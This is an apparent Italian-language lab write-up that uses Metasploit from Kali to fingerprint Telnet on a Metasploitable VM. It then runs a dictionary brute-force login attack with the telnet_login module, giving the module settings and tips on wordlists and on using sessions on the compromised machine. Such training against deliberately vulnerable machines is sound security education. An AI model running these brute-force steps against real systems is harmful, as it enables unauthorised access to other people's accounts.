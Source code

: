 Scenari e Configurazioni Preliminari
Configurazione degli IP:
Kali Linux: 192.168.1.25
Metasploitable: 192.168.1.40
Obiettivo: Verificare la versione di Telnet su Metasploitable, identificare vulnerabilità e simulare un attacco brute-force utilizzando dizionari.
Passaggi per l'Esercizio
1. Identificazione della Versione di Telnet
Modulo utilizzato: auxiliary/scanner/telnet/telnet_version
Comandi principali:
Impostare l'IP della macchina target:
bash
Copia codice
set RHOST 192.168.1.40
Eseguire il modulo:
bash
Copia codice
run
Risultati attesi:
Visualizzazione delle informazioni sul servizio Telnet della macchina target.
Raccolta di dettagli utili per ulteriori analisi.
2. Simulazione di un Attacco Brute-Force su Telnet
Modulo utilizzato: auxiliary/scanner/telnet/telnet_login
Passaggi:
Configurare i parametri del modulo:
IP della vittima:
bash
Copia codice
set RHOST 192.168.1.40
File di dizionario per utenti e password:
bash
Copia codice
set USER_FILE <path_file_utenti>
set PASS_FILE <path_file_password>
Abilitare l'arresto al primo successo:
bash
Copia codice
set STOP_ON_SUCCESS true
Regolare il numero di thread per ottimizzare la velocità:
bash
Copia codice
set THREADS 5
Avviare l'attacco:
bash
Copia codice
run
Risultati attesi:
Accesso forzato alla macchina target utilizzando un dizionario.
Identificazione di combinazioni valide di credenziali.
Considerazioni Tecniche
Ottimizzazione dell’Attacco Brute-Force:

Utilizzo di dizionari mirati con dettagli noti (es., lunghezza username, presenza di caratteri speciali) per migliorare l’efficienza.
Possibilità di usare dizionari più estesi come Xato o personalizzati.
Uso di Moduli Complementari:

Per una gestione avanzata, considerare l’uso di sessions per interagire direttamente con la macchina compromessa.
